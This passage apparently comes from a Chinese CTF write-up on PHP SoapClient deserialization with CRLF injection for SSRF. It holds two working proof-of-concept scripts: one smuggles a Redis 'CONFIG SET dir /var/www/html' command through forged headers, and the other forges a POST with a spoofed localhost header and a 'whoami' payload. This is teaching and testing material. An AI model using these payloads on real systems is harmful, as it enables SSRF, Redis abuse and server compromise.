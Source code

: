 记得监听自己VPN上的端口
![请添加图片描述](https://img-blog.csdnimg.cn/052d4e595c2f4a31af6859457e966430.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)


但是当存在CRLF漏洞，我们就可以通过`user_agent`的参数伪造http头

运行后，监听界面就出现了伪造的http头

![请添加图片描述](https://img-blog.csdnimg.cn/f470fdddc476471d85f438538e078165.png)
这儿可以看看怎么利用伪造http头去构造redis命令

测试代码

```php
<?php
$target = 'http://ip:10000/';
$poc = "CONFIG SET dir /var/www/html";
$a = new SoapClient(null,array('location' => $target, 'uri' => 'hello^^'.$poc.'^^hello'));
$b = serialize($a);
$b = str_replace('^^',"\n\r",$b); 
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/0bd047f6a1934f67ba766f9caead2a7e.png)
伪造了redis命令，这样我们就可以用http协议去打redis了。

对于发送POST数据包，Content-Type 的值我们要设置为 application/x-www-form-urlencoded，而且Content-Length的值需要与post的数据长度一致。而且http头跟post数据中间间隔`\r\n\r\n`,其他间隔`\r\n`

```php
<?php
$target = 'http://ip:10000/';
$post_data = 'data=whoami';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$a = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_data).'^^^^'.$post_data,'uri'=>'test'));
$b = serialize($a);
$b = str_replace('^^',"\n\r",$b);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```
成功发送post数据包
![在这里插入图片描述](https://img-blog.csdnimg.cn/aadef2961318444aae058377664b913b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_19,color_FFFFFF,t_70,g_se,x_16)

###  bestphp’s revenge
